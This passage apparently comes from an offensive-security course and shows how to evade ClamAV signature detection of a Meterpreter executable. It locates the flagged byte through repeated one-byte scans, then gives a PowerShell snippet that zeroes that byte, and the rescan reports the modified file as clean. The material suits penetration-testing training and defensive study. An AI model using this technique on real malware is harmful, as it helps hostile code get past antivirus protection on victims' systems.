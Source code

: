 > Listing 9 - Scanning the 10 byte interval range

Let's narrow this down again, by splitting the 18860-18870 range into one-byte intervals. We'll save the results to a new directory and scan it:

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest5
C:\Tools\avtest5\met_18860.bin: OK
C:\Tools\avtest5\met_18861.bin: OK
C:\Tools\avtest5\met_18862.bin: OK
C:\Tools\avtest5\met_18863.bin: OK
C:\Tools\avtest5\met_18864.bin: OK
C:\Tools\avtest5\met_18865.bin: OK
C:\Tools\avtest5\met_18866.bin: OK
C:\Tools\avtest5\met_18867.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18868.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18869.bin: Win.Trojan.Swrort-5710536-0 FOUND
C:\Tools\avtest5\met_18870.bin: Win.Trojan.Swrort-5710536-0 FOUND
...
```

> Listing 10 - Scanning the 1 byte interval range

Since the byte at offset 18867 of the Meterpreter executable is part of the ClamAV signature, let's change it in an attempt to evade detection.

We'll use PowerShell_ISE to read the bytes of the Meterpreter executable, zero out the byte at offset 18867, and write the modified executable to a new file, met_mod.exe:

```
$bytes  = [System.IO.File]::ReadAllBytes("C:\Tools\met.exe")
$bytes[18867] = 0
[System.IO.File]::WriteAllBytes("C:\Tools\met_mod.exe", $bytes)
```

> Listing 11 - Modifying the Meterpreter executable

To find out if the modification worked, we'll repeat the split and scan, this time on the modified executable. Listing 12 shows a scan of the one-byte split between offset 18860 and 18870.

```
PS C:\Program Files\ClamAV> .\clamscan.exe C:\Tools\avtest6
C:\Tools\avtest6\met_mod_18860.bin: OK
C:\Tools\avtest6\met_mod_18861.bin: OK
C:\Tools\avtest6\met_mod_18862.bin: OK
C:\Tools\avtest6\met_mod_18863.bin: OK
C:\Tools\avtest6\met_mod_18864.bin: OK
C:\Tools\avtest6\met_mod_18865.bin: OK
C:\Tools\avtest6\met_mod_18866.bin: OK
C:\Tools\avtest6\met_mod_18867.bin: OK
C:\Tools\avtest6\met_mod_18868.bin: OK
C:\Tools\avtest6\met_mod_18869.bin: OK
C:\Tools\avtest6\met_mod_18870.bin: OK
...
```

> Listing 12 - Scanning the modified executable
